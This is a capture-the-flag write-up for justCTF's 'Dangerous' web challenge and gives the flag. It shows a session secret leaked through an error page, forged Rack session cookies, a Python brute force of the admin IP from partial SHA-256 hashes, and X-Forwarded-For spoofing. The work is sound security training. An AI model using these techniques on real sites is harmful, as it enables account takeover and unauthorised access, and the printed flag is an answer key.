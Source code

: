 # Dangerous

## Flag
justCTF{1_th1nk_4l1ce_R4bb1t_m1ght_4_4_d0g}

## Solution

The web application has a `/flag` endpoint which shows the flag if the user is logged in with the correct username and the request is sent from the IP address defined in the file "config.json":

```Ruby
get "/flag" do
  if !session[:username] then
    erb :login
  elsif !is_allowed_ip(session[:username], request.ip, config) then
    return [403, "You are connecting from untrusted IP! #{request.ip}"]
  else
    return config["flag"] 
  end
end
```

```Ruby
def is_allowed_ip(username, ip, config)
  return config["mods"].any? {
    |mod| mod["username"] == username and mod["allowed_ip"] == ip
  }
end
```

The page shows an error page if a thread or a reply with empty content is created:
```Ruby
post "/thread" do
  if params[:content].nil? or params[:content] == "" then
    raise "Thread content cannot be empty!"
  end
  if session[:username] then
    username = is_allowed_ip(session[:username], request.ip, config) ? session[:username] : nil
  end
   con.execute("INSERT INTO threads (id, content, ip, username)
             VALUES (?, ?, ?, ?)", [nil, params[:content], request.ip, username])
  redirect to("/#{con.execute('SELECT last_insert_rowid()')[0][0]}")
end
```

We can use the error page for getting the type of cookies the web application is using and also the secret for forging the encrypted cookies.

We add the following lines of code to the "dangerous.rb" script for creating the cookies with the secret we obtained from the error page:

```Ruby
use Rack::Protection::EncryptedCookie,
                           :key => 'rack.session',
                           :path => '/',
                           :secret => 'a9316e61bc75029d52f915823d7bb628a4adae8b174bce89fd38ec4c7fb925a07e2ccbc01572b9fdce56502ef5d02609e5194a5ddd649ff349a206002e96a99d'
```

We can find the username of the admin by reading the titles of threads, which are "Admin:janitor" for the posts created by the admin, and we adapt our "config.json" file:
```
{
	"mods": [
		{
			"username": "janitor",
			"password": "password",
			"allowed_ip": "127.0.0.1"
		}
	],
	"flag": "testflag"
}
```
We create the cookie with the correct username by logging in locally. If we use that cookie on the challenge website, we get the message "You are connecting from untrusted IP!" and see
that the server has accepted the cookie we generated locally.

In the "thread.erb" file we see that a part of the SHA-256 hash of "IP_ADDRESS+THREAD_ID" is disclosed:

```HTML
			<% user_color = Digest::SHA256.hexdigest(reply[2] + @id).slice(0, 6) %>
			<div style="color: #<%= user_color %>;">
				<%= user_color %>
			<% if reply[3] %>
				<span style="color: #ff0000;">##Admin:<%= reply[3] %>##</span>
			<% end %>
			</div>
			<div><%= reply[1] %></div>
```

We use the values from the hashes of two threads for bruteforcing the IP address of the admin.


```Python
import ipaddress
from hashlib import sha256

i = 0
for ip in ipaddress.ip_network('0.0.0.0/0'):
   hash = sha256(str(ip).encode()+b'1').hexdigest()
   if hash[0:6]=='32cae2':
      hash = sha256(str(ip).encode()+b'2').hexdigest()
      if hash[0:6]=='92e1e8':
         print(ip)
   i += 1
   if i==100000:
      print("current ip: %s" %ip)
      i = 0
```

Then, we use `X-Forwarded-For: 10.24.170.69` for spoofing the IP address of the request on the `/flag` endpoint and get the flag.


